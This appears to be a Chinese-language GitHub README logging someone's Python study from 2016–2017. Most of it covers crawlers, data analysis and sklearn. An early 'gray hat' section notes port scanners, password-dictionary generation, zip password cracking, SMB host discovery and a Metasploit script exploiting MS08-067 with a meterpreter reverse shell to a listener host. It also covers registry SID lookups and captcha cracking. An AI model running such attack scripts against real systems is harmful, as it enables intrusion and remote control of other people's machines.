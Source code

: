 # learn-python
###20160510 python 灰帽编程 3   
  ip、port扫描器；生成ip段。
###20160510 python 灰帽编程 4   
  解析域名，生成用户名-口令 字典，包括根据域名生成的用户名口令。
###20160705 python绝技 
####retBanner.py
  socket扫描ip，port，通过返回的banner查询vulnerable.txt
####zippass.py
  zFile = zipfile.ZipFile('evil.zip', 'r')
  zFile.extractall(pwd='password')
  使用多线程：
  t = Thread(target = functionname, args = (args))
  t.start
####4scanner.py
  argparse解析命令行参数
  参数用-h会与默认的帮助的-h冲突
  命令行下运行时需要使用python name.py
  --portlist --后的是变量名
  nargs = '*' 可是多个变量（端口）

```python
  def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
```
####2-5-conficker.py
  使用python nmap发现主机（扫描）
```python
  def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
```
  使用python为metasploit配置.rc文件，操作metasploit：
```python
configFile.write('use exploit/windows/smb/psexec\n')
  ...
  configFile = open('meta.rc', 'w')
```
####2-6-freeFloat.py
  写PoC
```shell
  use exploit/windows/smb/ms08_067_netapi
  set RHOST 192.168.1.37
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST 192.168.77.77
  set LPORT 7777
  exploit –j –z
```
  为了利用Metasploit的攻击，我们选择我们的Exploit(exploit/windows/smb/ms08_067_netapi)，然后设置目标为192.168.1.37。接下来我们指定攻击荷载为windows/meterpreter/reverse_tcp选择反向连接到我们的192.168.77.77的7777端口上，最后我们告诉Metasploit开始攻击系统。保存配置文件为conficker.rc，我们可以通过命令
  msfconsole -r conficker.rc
  来启动我们的攻击。这个命令会告诉Metasploit根据conficker.rc来启动攻击。如果成功，我们的攻击会返回一个命令行Shell来控制对方电脑。 

####32recycle.py 
  用Python 将用户的SID 关联起来:通过检查 Windows 注册表键值HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\<SID>\ProfileImagePath，我们可以看到它返回 一个是%SystemDrive%\Documents and Settings\<USERID>。在下图中，我 们看到这允许我们将SID 为S-1-5-21-1275210071-1715567821-725345543- 1005 转化为用户名“alex”。
  ```python
  key = _winreg.OpenKey(_winreg.HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\\" + sid)
              (value, type) = _winreg.QueryValueEx(key, "ProfileImagePath")
              user = value.split('\\')[-1]
  ```

###20161204 使用python抓取并分析数据—链家网(requests+BeautifulSoup)
	http://bluewhale.cc/2016-12-04/use-python-crawl-and-analysis-data-lianjia-requests-and-beautifulsoup.html
	scipy的安装问题【scipy-0.15.1-win32-superpack-python2.7.exe安装包】
	pandas入门 http://pda.readthedocs.io/en/latest/chp5.html
	sklearn 是一个 Python 的 科学计算库，提供了数种聚类算法可供选择；numpy、scipy 是 Python 的科学运算库，matplotlib 是图形库，用于绘图。http://www.jianshu.com/p/93c03a09d689
###20161220 renrendai爬虫与贷款数据分析
  画图，pandas中数据的分类统计；
  ```python
  #按贷款目的汇总贷款笔数
  title_count=rrd.groupby('title')['amount'].agg('count')
  ```
###20161227 python机器学习sklearn
  官方例子：\learn-python\sklearn\plot_digits_classification.py
  from sklearn import datasets 自带数据集
  digits = datasets.load_digits() 手写数字数据
  SVM分类，前一半训练，后一半预测（分类）
  ```python
  # Create a classifier: a support vector classifier
  classifier = svm.SVC(gamma=0.001)
  # We learn the digits on the first half of the digits
  classifier.fit(data[:n_samples / 2], digits.target[:n_samples / 2])
  # Now predict the value of the digit on the second half:
  expected = digits.target[n_samples / 2:]
  predicted = classifier.predict(data[n_samples / 2:])
  ```
  画图
  ```python
  #使用方法：subplot（m,n,p）subplot是将多个图画到一个平面上的工具。
  # 其中，m表示是图排成m行，n表示图排成n列，也就是整个figure中有n个图是排成一行的，
  # 一共m行，如果m=2就是表示2行图。p表示图所在的位置，p=1表示从左到右从上到下的第一个位置。
  plt.subplot(4, 7, index + 15)
  ```
###20170221 NYC_Taxi 使用Python分析纽约出租车搭乘数据
  Read more: http://bluewhale.cc/#ixzz4ZIpKZQqW
  pd操作
###20170222 lianjia_spider 网上的一个链家爬虫，还未测试
###20170223 pygame 未完成
###20170224 socket 用python实现的socket通信
    python socket编程详细介绍 http://blog.csdn.net/rebelqsp/article/details/22109925
    Python Socket 网络编程 http://www.cnblogs.com/hazir/p/python_socket_programming.html
    input()与raw_input()：最好用raw_input();
    用socket.sendall();

###20170404 花瓣网图片爬虫     <font color=OrangeRed>好！！！</font>
    learn-python\qiubai_crawler、4_grab_huaban_board.py 
    不错的代码，print color函数；多线程；
    ```python
    #get ajax pin data 异步（下拉加载更多）
    url = "http://huaban.com/boards/%s/?max=%s&limit=100&wfl=1" %(board, pins[-1])
    
    # 详细使用文档请参考: http://www.saintic.com/blog/204.html
    # user（用户） 下有 board（画板），再下有pin（图片）
    # http://huaban.com/boards/%s/?limit=100 在下拉加载更多的页面上直接请求100个
    # url = "http://huaban.com/boards/%s/?max=%s&limit=100&wfl=1" %(board, pins[-1]) 请求到max=pins[-1]个 即最后一个。最多100个
    ```

###scan_ips_ports结合了正则、socket等的简单扫描器

###toutiao spider 通过保存toutiao的图片学用mongodb

###CmdPipe 输出重定向、logging模块

###20170510 调用shodan 

###20170510 Scanless
使用以下几个网站进行扫描：
Scanner Name   | Website
---------------|------------------------------
yougetsignal   | http://www.yougetsignal.com
viewdns        | http://viewdns.info
hackertarget   | https://hackertarget.com
ipfingerprints | http://www.ipfingerprints.com
pingeu         | http://ping.eu
spiderip       | https://spiderip.com
portcheckers   | http://www.portcheckers.com


###20170515 smart_login
 [转]
本项目用于研究和分享各大网站的模拟登陆方式,主要使用selenium+phantomjs或者直接登录的方式,语言采用Python
可以在登录过后得到的cookie维护起来，然后调用requests或者scrapy等进行数据采集，这样数据采集的速度可以得到保证。

###20170519 data_analyse\tableau
蓝鲸的网站分析笔记 使用python和tableau对数据进行抓取及可视化 http://bluewhale.cc/2017-05-05/use-python-and-tableau-to-capture-and-visualize-the-data.html

### 20170726 70个Python练手项目列表 实验楼 1 图片转字符画：将256灰度映射到70个字符上
```python
from PIL import Image  # sudo pip install pillow
```
### 20170808 70个Python练手项目列表 实验楼 2 实现2048游戏 https://www.shiyanlou.com/courses/368/labs/1172/document
有限状态机，矩阵转置、列表遍历等基本数据操作
### 20170814 70个Python练手项目列表 实验楼 3 Python3 实现火车票查询工具
分析了最新的返回数据格式。
### 20170828 70个Python练手项目列表 实验楼 4 高德API+Python解决租房问题
调用高德API
index.html代码可能过时，功能未实现。待研习其代码。
### 20170831 70个Python练手项目列表 实验楼 6 Python 破解验证码
Pillow 模块
向量空间图像识别：你有 3 篇文档，我们要怎么计算它们之间的相似度呢？2 篇文档所使用的相同的单词越多，那这两篇文章就越相似！但是这单词太多怎么办，就由我们来选择几个关键单词，选择的单词又被称作特征，每一个特征就好比空间中的一个维度（x，y，z 等），一组特征就是一个矢量，每一个文档我们都能得到这么一个矢量，只要计算矢量之间的夹角就能得到文章的相似度了。
